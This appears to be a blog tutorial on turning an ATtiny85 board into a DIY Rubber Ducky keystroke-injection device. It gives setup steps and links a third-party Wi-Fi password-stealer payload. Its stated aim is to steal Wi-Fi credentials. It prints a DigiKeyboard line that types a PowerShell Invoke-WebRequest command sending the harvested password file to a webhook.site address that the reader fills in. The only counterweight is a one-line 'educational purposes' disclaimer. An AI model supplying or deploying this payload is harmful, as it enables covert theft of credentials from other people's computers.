 ```yaml
---
title: "DIY Rubber Ducky with ATtiny85"
date: "05-14-2022"
author: "Reda BELHAJ"
summary: "Using ATtiny85 to create a DIY Rubber Ducky"
tags: ["Diy", "Attiny85"]
image: "/images/Rubber/bg.png"
---
```


In this article, I’ll walk through how you can create a DIY Rubber Ducky and try to steal Wifi credentials and send them to a webhook site.

## Requirements
* **ATtiny85** : The ATtiny85 is a microcontroller in a similar vein to the Arduino, but with much less IO pins, smaller memory and a smaller form factor.
* Download **Arduino IDE**.

## Configuration
First we need to add an **Additional Boards Manager** to the Arduino IDE. Open Arduino IDE > Goto file > preferences and then add or paste [the package digistump index file](http://digistump.com/package_digistump_index.json):

* [Link](http://digistump.com/package_digistump_index.json)

![preferences](/images/Rubber/pre.JPG)

Secondly, we need to goto tools > boards manager and install **Digistump AVR Boards**

![boards](/images/Rubber/boards.JPG)

And now we need to install **Digistump Arduino Drivers** (just the *Digistump.Drivers.zip*) through the link below:

* [Link](https://github.com/digistump/DigistumpArduino/releases)

## Payloads 
So before using one of **MTK911** payloads please make sure to read the *DISCLAIMER*:

>All the software/scripts/applications/things in this repository are provided as is, without warranty of any kind. Use of these software/scripts/applications/things is entirely at your own risk. Creator of these softwares/scripts/applications/things is not responsible for any direct or indirect damage to your own or defiantly someone else's property resulting from the use of these software/scripts/applications/things.

And now we are all setup. we just need a payload and for this example we are going to use **Wi-Fi password stealer** from **MTK911** Github Repo: 

* [Link](https://github.com/MTK911/Attiny85/blob/master/payloads/Wi-Fi%20password%20stealer/WifiKey-Grab_Minimize-of-Shame.ino)

You can also test out [MTK911](https://github.com/MTK911/Attiny85)'s other payloads.

![code](/images/Rubber/code.JPG)

And after paste the payload into your IDE. Open [Webhook Sites](https://webhook.site) and make sure to copy your unique URL :

![webhook](/images/Rubber/webhook.JPG)

Then paste the Webhook address into the code as mentioned:

```
DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/<ADD-WEBHOOK-ADDRESS-HERE> -Method POST -InFile Wi-Fi-PASS");
DigiKeyboard.delay(1000);
```

Then Click upload on Arduino IDE. and it will copy the file to the ATtiny85 after you plug it in. And you are ready to test it out.

## Disclaimer
All the content reported in this article is for educational purposes only and we are not responsible for any use that may be made of it.